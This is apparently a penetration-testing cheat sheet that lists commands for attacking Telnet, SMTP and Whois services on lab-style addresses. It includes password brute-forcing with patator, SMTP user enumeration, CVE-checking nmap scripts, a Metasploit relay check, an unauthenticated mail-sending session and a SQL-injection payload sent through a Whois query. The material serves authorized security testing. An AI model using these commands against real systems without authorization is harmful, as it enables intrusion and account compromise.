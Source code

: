 ## Port 23 - Telnet

```bash
# Get banner
telnet 10.11.1.110
# Bruteforce password
patator telnet_login host=10.11.1.110 inputs='FILE0\nFILE1' 0=/root/Desktop/user.txt 1=/root/Desktop/pass.txt  persistent=0 prompt_re='Username: | Password:'
```

## Port 25 - SMTP

```bash
nc -nvv 10.11.1.111 25
HELO foo

telnet 10.11.1.111 25
VRFY root

nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.11.1.111
smtp-user-enum -M VRFY -U /root/sectools/SecLists/Usernames/Names/names.txt -t 10.11.1.111

# SMTP relay
msfconsole
use auxiliary/scanner/smtp/smtp_relay
set RHOSTS <IP or File>
set MAILFROM <PoC email address>
set MAILTO <your email address>
run

# Send email unauth:

MAIL FROM:admin@admin.com
RCPT TO:DestinationEmail@DestinationDomain.com
DATA
test

.

Receive:
250 OK
```

## Port 43 - Whois

```bash
whois -h 10.10.1.111 -p 43 "domain.com"
echo "domain.com" | nc -vn 10.10.1.111 43
whois -h 10.10.1.111 -p 43 "a') or 1=1#"
```
